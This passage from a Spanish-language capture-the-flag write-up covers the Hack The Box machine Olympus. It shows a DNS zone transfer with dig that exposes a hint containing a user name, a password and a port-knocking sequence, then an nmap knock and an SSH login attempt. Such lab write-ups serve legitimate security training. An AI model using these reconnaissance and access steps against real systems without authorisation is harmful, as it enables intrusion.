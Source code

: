 ```bash
;; AUTHORITY SECTION:
ctfolympus.htb.         86400   IN      NS      ns2.ctfolympus.htb.
ctfolympus.htb.         86400   IN      NS      ns1.ctfolympus.htb.

;; ADDITIONAL SECTION:
ns1.ctfolympus.htb.     86400   IN      A       192.168.0.120
ns2.ctfolympus.htb.     86400   IN      A       192.168.0.120

;; Query time: 304 msec
;; SERVER: 10.10.10.83#53(10.10.10.83)
;; WHEN: dom sep 19 00:20:21 CDT 2021
;; MSG SIZE  rcvd: 127

❯ dig @10.10.10.83 ctfolympus.htb axfr

; <<>> DiG 9.16.15-Debian <<>> @10.10.10.83 ctfolympus.htb axfr
; (1 server found)
;; global options: +cmd
ctfolympus.htb.         86400   IN      SOA     ns1.ctfolympus.htb. ns2.ctfolympus.htb. 2018042301 21600 3600 604800 86400
ctfolympus.htb.         86400   IN      TXT     "prometheus, open a temporal portal to Hades (3456 8234 62431) and St34l_th3_F1re!"
ctfolympus.htb.         86400   IN      A       192.168.0.120
ctfolympus.htb.         86400   IN      NS      ns1.ctfolympus.htb.
ctfolympus.htb.         86400   IN      NS      ns2.ctfolympus.htb.
ctfolympus.htb.         86400   IN      MX      10 mail.ctfolympus.htb.
crete.ctfolympus.htb.   86400   IN      CNAME   ctfolympus.htb.
hades.ctfolympus.htb.   86400   IN      CNAME   ctfolympus.htb.
mail.ctfolympus.htb.    86400   IN      A       192.168.0.120
ns1.ctfolympus.htb.     86400   IN      A       192.168.0.120
ns2.ctfolympus.htb.     86400   IN      A       192.168.0.120
rhodes.ctfolympus.htb.  86400   IN      CNAME   ctfolympus.htb.
RhodesColossus.ctfolympus.htb. 86400 IN TXT     "Here lies the great Colossus of Rhodes"
www.ctfolympus.htb.     86400   IN      CNAME   ctfolympus.htb.
ctfolympus.htb.         86400   IN      SOA     ns1.ctfolympus.htb. ns2.ctfolympus.htb. 2018042301 21600 3600 604800 86400
;; Query time: 148 msec
;; SERVER: 10.10.10.83#53(10.10.10.83)
;; WHEN: dom sep 19 00:22:25 CDT 2021
;; XFR size: 15 records (messages 1, bytes 475)
```

Ojito, que nos están dando otra pista ***"prometheus, open a temporal portal to Hades (3456 8234 62431) and St34l_th3_F1re!"***. Nos están indicando un posible usuario **prometheus**, una contraseña **St34l_th3_F1re!** y unos puertos **3456 8234 62431**, por lo que ya debemos estar pensando en *port knocking*. Para este caso vamos a tirar el `nmap`:

```bash
❯ nmap -p3456,8234,62431 10.10.10.83 -r; ssh prometheus@10.10.10.83
Starting Nmap 7.92 ( https://nmap.org ) at 2021-09-19 00:27 CDT
Nmap scan report for ctfolympus.htb (10.10.10.83)
Host is up (0.15s latency).

PORT      STATE  SERVICE
3456/tcp  closed vat
8234/tcp  closed unknown
62431/tcp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 0.50 seconds
The authenticity of host '10.10.10.83 (10.10.10.83)' can't be established.
ECDSA key fingerprint is SHA256:8TR2+AWSBT/c5mrjpDotoEYu0mEy/jCzpuS79d+Z0oY.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.83' (ECDSA) to the list of known hosts.
prometheus@10.10.10.83's password: 
```